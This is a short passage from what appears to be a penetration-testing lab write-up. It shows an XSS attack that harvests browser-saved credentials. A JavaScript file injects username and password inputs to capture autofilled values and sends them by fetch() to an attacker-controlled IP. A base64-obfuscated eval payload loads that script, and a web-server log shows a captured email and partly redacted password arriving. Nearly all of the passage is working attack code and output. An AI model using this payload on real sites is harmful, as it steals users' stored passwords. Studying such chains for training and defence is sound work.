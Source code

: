 We can also craft an XSS payload to extract the user's stored credentials.

{% code title="xssSavedPasswords.js" %}
```javascript
let body = document.getElementsByTagName("body")[0]

var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
//u.style.opacity = "0";

var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
//p.style.opacity = "0";

body.append(u)
body.append(p)

setTimeout(function(){
    fetch("http://192.168.45.214/k?u=" + u.value + "&p=" + p.value)
    }, 5000);
```
{% endcode %}

{% code overflow="wrap" %}
```javascript
// the XSS payload
'+btoa(eval(atob("alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjE0L3hzc1NhdmVkUGFzc3dvcmRzLmpzJyk=" )))+'
```
{% endcode %}

{% code overflow="wrap" %}
```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.228.101 - - [07/Aug/2024 14:19:51] "GET /xssSavedPasswords.js?_=1723036791071 HTTP/1.1" 200 -
192.168.228.101 - - [07/Aug/2024 14:19:56] code 404, message File not found
192.168.228.101 - - [07/Aug/2024 14:19:56] "GET /k?u=AmandaGomesCarvalho@offsec.com&p=ALERT!how<SNIP>? HTTP/1.1" 404 
```
{% endcode %}
